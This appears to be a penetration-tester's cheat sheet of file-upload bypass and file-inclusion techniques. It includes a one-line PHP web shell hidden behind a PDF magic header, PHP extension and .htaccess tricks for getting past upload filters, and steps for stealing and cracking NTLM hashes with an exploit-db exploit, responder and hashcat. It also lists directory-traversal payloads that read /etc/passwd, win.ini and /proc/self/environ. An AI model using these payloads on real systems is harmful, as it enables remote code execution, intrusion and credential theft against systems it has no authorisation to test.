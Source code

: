 file signature

```jsx
//hexeditor or plaintext
https://en.wikipedia.org/wiki/List_of_file_signatures

//rs.php for PDF bypass

%PDF-
<?php echo shell_exec($_GET['cmd'].' 2>&1'); ?>

```

Content-Type

```jsx
//ony accept gif
Content-Type: image/gif
```

PHP extension

```jsx
Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
```

.htaccess bypass

```jsx
echo 'AddType application/x-httpd-php .dork' > .htaccess
//upload .htaccess
//upload rv.dork
```

ODT file & stealing NTLM via responder

> https://www.exploit-db.com/exploits/44564
> 

```jsx
pip install lxml
pip install ezodf
python 44564.py 
sudo responder -I tun0
hashcat -m 5600 crack /usr/share/wordlists/rockyou.txt --force
```

### File Inclusion (FI) / Directory Traversal (DT)

example

```php
http://192.168.1.1:8000/backend/?view=user.inc
http://192.168.1.1:4443/site/index.php?page=main.php
```

Local File Inclusion (LFI)

```jsx
C:\Windows\System32\drivers\etc\hosts
filename=..\..\..\windows\win.ini
http://192.168.1.1:8000/backend/?view=../../../../etc/passwd
//separate to two parameters
?cwd=../../../../../../../../../etc&file=passwd&download=false 

//common files for python app
main.py
app.py
api.py 
/proc/self/environ
/proc/self/cmdline

```